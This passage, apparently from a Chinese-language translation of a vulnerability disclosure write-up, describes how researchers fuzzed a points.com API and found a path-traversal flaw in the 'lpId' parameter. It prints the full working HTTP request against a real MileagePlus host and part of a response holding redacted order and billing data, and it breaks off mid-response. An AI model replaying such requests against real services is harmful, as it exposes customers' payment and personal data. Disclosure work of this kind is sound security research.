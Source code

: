 **HTTP Response:**  
```
HTTP/2 400 Bad Request
Content-type: application/json

{"error":"Missing query parameter"}
```


看到 `missing query parameter` 後
- 我們嘗試透過 `lpId` 參數對 GET parameter 進行 fuzz
- (例如，`/v1/search/orders?query=x`)，但無法辨識任何內容
- 這讓我們困惑了一會兒，然後我們意識到 `/v1/search/orders` 是接收 JSON 的 POST request


我們看到了發送的空參數 `mvPayload`，並嘗試對 JSON 中的參數進行 fuzz
- 執行我們 `intruder` script，然後我們看到了一個成功的 script，其 response 大小非常大！ 參數 `q` 似乎就是 server 正在尋找的參數


透過發送以下 POST request，我們能夠存取所有 `points.com` 忠誠度計畫的交易數據
- 包括達美航空、阿聯酋航空、新加坡航空、美聯航、阿提哈德航空、加拿大航空、漢莎航空、西南航空、阿拉斯加航空、夏威夷航空，以及希爾頓、萬豪和IHG 等許多飯店積分供應商:
 


**HTTP Request:**  
```
POST /mileage-plus-transfer/mvs/recipient HTTP/1.1
Host: buymiles.mileageplus.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Content-Type: application/json
Content-Length: 59
Connection: close

{"mvPayload":{"q":"*"},"lpId":"../../v1/search/orders/?"}
```

**HTTP Response:**  

```
HTTP/1.1 200 OK
Date: Fri, 10 Mar 2023 00:02:04 GMT
Content-Type: application/json

{
  "orders": [
    {
      "payment": {
        "billingInfo": {
        "cardName": "Visa",
        "cardNumber": "XXXXXXXXXXXXXXXX",
        "cardType": "VISA",
        "city": "REDACTED",
        "country": "US",
        "expirationMonth": 7,
        "expirationYear": 2023,
        "firstName": "REDACTED",
        "lastName": "REDACTED",
        "phone": "REDACTED",
        "state": "TX",
        "street1": "REDACTED",
        "zip": "REDACTED"
      },
      "costs": {
        "baseCost": 275,
        "fees": [],
        "taxes": [],
        "totalCost": 275
      },
      "currency": "USD",
```